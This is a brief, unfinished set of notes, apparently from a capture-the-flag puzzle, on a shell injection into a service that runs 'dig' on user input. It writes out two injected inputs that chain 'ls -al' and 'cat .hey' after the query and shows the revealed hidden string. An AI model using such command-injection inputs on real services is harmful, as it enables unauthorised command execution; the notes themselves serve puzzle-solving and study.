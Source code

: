 - shell injection
- runs dig <arg>
- i.e. query for: foo >/dev/null && ls -al
  - shows an interesting file, ".hey"
- query for: foo >/dev/null && cat .hey
  - Miux+mT6Kkcx+IhyMjTFnxT6KjAa+i6ZLibC
- ???

